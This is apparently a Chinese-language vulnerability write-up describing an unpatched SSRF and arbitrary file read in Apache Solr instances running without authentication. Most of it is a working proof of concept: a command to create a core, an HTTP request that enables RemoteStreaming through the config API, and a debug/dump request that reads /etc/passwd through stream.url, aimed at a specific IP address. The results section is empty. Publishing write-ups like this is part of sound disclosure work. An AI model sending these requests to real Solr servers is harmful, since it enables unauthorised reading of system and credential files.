

# Solr SSRF （官方不认，未修复）

## 漏洞描述

在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

## writeup

- 待读取文件

```
/etc/passwd
```

- 创建core

```
docker exec solr bash bin/solr create_core -c demo
```

- POC

开启RemoteStreaming

```
POST /solr/demo/config HTTP/1.1
Host: 106.53.141.62:8983
Content-Type: application/json
Content-Length: 80

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```

读文件

```
POST /solr/demo/./debug/dump?param=ContentStreams HTTP/1.1
Host: 106.53.141.62:8983
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

stream.url=file:///etc/passwd
```

## 复现结果


